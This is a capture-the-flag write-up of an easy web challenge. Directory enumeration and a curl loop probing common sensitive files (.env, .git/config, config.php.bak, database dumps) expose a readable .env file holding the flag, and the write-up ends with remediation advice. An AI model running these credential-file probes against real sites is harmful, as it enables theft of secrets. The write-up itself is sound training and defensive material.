


# Sensitivity

> **Red Team Academy / Pentest Garage — Web Security**

## 📌 Challenge Information

| Field          | Details                                                        |
| -------------- | -------------------------------------------------------------- |
| **Challenge**  | Sensitivity                                                    |
| **Category**   | Web Security                                                   |
| **Difficulty** | Easy                                                           |
| **Target**     | `ctf-akshay-sensitivity-9e91d3ff.challenges.pentestgarage.com` |
| **Port**       | `80`                                                           |
| **Technique**  | Sensitive Information Exposure / Security Misconfiguration     |

---

## 🎯 Objective

The objective of this challenge was to find accidentally exposed sensitive files or configuration data on the target web application.

The initial approach focused on directory enumeration followed by testing common files that could contain sensitive configuration information.

---


## 🔎 Enumeration

I first performed directory enumeration using Gobuster:

```bash
gobuster dir \
  -u http://ctf-akshay-sensitivity-9e91d3ff.challenges.pentestgarage.com/ \
  -w /usr/share/wordlists/dirb/common.txt
```


The enumeration revealed the site's static directories, but nothing immediately appeared to contain sensitive information.

---

## 🔍 Sensitive File Discovery

I then checked several commonly exposed files and backup/configuration files:

```bash
for f in .env .git/config robots.txt sitemap.xml config.php \
config.php.bak backup.zip backup.tar.gz database.sql db.sql \
index.php.bak; do
    echo "===== /$f ====="
    curl -s -o /dev/null -w "%{http_code} %{size_download}\n" \
    "http://ctf-akshay-sensitivity-9e91d3ff.challenges.pentestgarage.com/$f"
done
```



The interesting result was:

```text
===== /.env =====
200 43
```

A `200 OK` response indicated that the `.env` file was publicly accessible through the web server.

---

## 💥 Exploitation

I retrieved the exposed `.env` file using:

```bash
curl -s http://ctf-akshay-sensitivity-9e91d3ff.challenges.pentestgarage.com/.env
```



The response contained:

```text
FLAG=ctf{Vaaquohx8deach1Wae9eic0Eixooghai}
```

This confirmed that sensitive information was directly accessible without authentication.

---

## 🚩 Flag

```text
ctf{Vaaquohx8deach1Wae9eic0Eixooghai}
```


---

## 🧠 Vulnerability Analysis

The vulnerability was **Sensitive Information Exposure / Security Misconfiguration**.

The application's `.env` configuration file was publicly accessible through the web server.

Environment files commonly contain sensitive configuration information, such as:

* Application secrets
* Database credentials
* API keys
* Environment configuration
* Other sensitive application data

In this challenge, the exposed file directly contained the flag.

---

## 💥 Impact

An unauthenticated attacker who discovers an exposed `.env` file may be able to obtain sensitive application information.

Depending on the contents of the file, this could potentially lead to:

* Credential disclosure
* API key exposure
* Database access
* Application secret disclosure
* Further compromise of the application

The exact impact depends on what sensitive information is stored in the exposed configuration file.

---

## 🛡️ Remediation

Recommended protections include:

* Block public access to `.env` and other configuration files.
* Store sensitive configuration outside the web root.
* Never expose secrets, credentials, or API keys through publicly accessible files.
* Configure the web server to deny access to sensitive files.
* Rotate any secrets that have already been exposed.

---

## 🛠️ Tools Used

* Kali Linux
* Gobuster
* curl
* Linux command-line utilities

---

## 📚 Key Takeaways

This challenge demonstrated the importance of checking for accidentally exposed configuration files during web application reconnaissance.

Directory enumeration alone did not immediately reveal the vulnerability. Checking common sensitive files such as `.env` led directly to the exposed configuration.

### Main lesson

> **A configuration file that is not intended for public access should never be reachable through the web server.**

Even a simple file-disclosure issue can expose information that significantly increases the attack surface of an application.
